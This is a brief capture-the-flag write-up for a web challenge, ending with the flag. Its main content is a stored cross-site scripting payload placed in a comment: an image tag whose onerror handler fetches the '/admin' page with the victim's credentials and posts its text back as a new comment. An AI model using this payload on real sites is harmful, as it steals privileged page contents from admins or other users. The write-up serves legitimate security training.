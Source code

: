 Enter t in the name and the following in the comment. When you update the page, the flag

```html
<img
  src="x"
  onerror="
    (async () => {
      const res = await fetch('/admin', { credentials: 'include' });
      const text = await res.text();
      await fetch('/new-comment', {
        method: 'POST',
        headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
        body: 'name=t&comment=' + encodeURIComponent(text)
      });
    })();
  "
/>
```

`punk_{DFAMPF8TV5HQ7RC5}`
